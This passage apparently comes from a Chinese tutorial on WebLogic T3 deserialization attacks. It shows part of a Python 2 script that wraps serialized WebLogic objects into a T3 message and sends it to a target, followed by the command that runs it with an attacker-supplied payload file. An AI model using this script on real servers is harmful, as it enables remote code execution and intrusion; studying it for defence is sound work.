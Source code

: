 ```python
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'

# adjust header for appropriate message length
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

print 'sending payload...'
sock.send(payload)

```

上面的脚本是py2版本的，python3需要稍微改动一下。执行以下命令发送payload:

`python weblogic-t3.py ip port 存放payload的文件`

成功弹出wireshark

![](ser_example1/wireshark.png)